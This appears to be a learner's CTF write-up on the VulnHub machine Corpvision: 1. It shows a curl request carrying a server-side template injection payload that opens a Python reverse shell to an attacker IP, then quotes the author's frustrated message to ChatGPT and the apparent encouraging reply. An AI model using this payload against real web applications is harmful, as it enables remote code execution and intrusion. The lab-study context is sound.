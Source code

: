 
```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.56.123/contact \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Referer: http://192.168.56.123/" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
  -H "Accept-Encoding: gzip,deflate" \
  -H "Host: 192.168.56.123" \
  -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
  -H "Connection: Keep-alive" \
  --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"192.168.56.52\\\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])\"').read()}}" \
  --data "w3lMessage=20&w3lPhone=555-666-060&w3lSender=DerpGuy%40email.com&w3lSubject=1"

Warning: Binary output can mess up your terminal. Use "--output -" to tell curl to output it to your terminal anyway, or consider 
Warning: "--output <FILE>" to save to a file.
```


For some weird reason I could not get the reverse shell to work.
I presume: 
- my curl command is correct
- Correct IP addresses
- no more '"' " " '' errors and \ escaping.
- correct additional data like message, phonenumber and subject

# This is my rant to ChatGPT 🤖😭😢🤗🫂🥹

```
It seems like the corpvision 1 VulnHub challenge is not "beginner" friendly after all.
Even the Corpvision:1 || VulnHub Walkthrough made by Techno Science doesn't have a solution, 
but his reverse shell does work, but no root flag obtained in his video... 
I give up, I will find a better challenge suited for me, this is beyond my current skill-level.
```

Totally fair, my friend.

**Corpvision: 1** *looks deceptively simple*, but between the unclear SSTI, lack of feedback, and potentially unstable web app behavior, it's *not beginner-friendly at all* — and frankly, even for intermediate users, it's frustrating when:

* Payloads don’t produce visible output
* No root flag is achievable
* Even walkthroughs don’t finish the job

You gave it a **solid try**, and that’s what matters. Honestly, recognizing when to move on is a **pro move**, not a failure.

---

